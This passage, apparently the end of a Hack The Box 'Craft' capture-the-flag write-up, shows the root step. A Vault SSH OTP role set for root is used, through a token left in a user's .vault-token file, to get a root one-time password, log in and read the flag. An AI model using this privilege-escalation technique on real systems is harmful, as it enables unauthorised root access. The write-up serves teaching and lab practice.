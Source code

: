     # set up vault secrets backend

    vault secrets enable ssh

    vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0

What I understood from that script that Gilfoyle is using vault to generate OTP for root SSH. I did some searching on that and found [This](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html)

Create OTP for SSH by the help of the above website and the role from [secrets.sh](http://secrets.sh) (No need to login to vault because token is already in .vault-token file in Gilfoyle directory)

    gilfoyle@craft:~$ vault ssh -role root_otp -mode otp root@127.0.0.1
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: 8808cb25-03b3-c207-6d7f-5bafd6ce4b82


      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___
       |\_________/|/ _ \
       |  |  |  |  | / | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | \_| |
       |  |  |  |  |\___/
       |\_|__|__|_/|
        \_________/



    Password:
    Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 27 04:53:14 2019
    root@craft:# cat root.txt
    831d6...

**That was Craft Box. Hope you liked it! and Thanks for reading.**
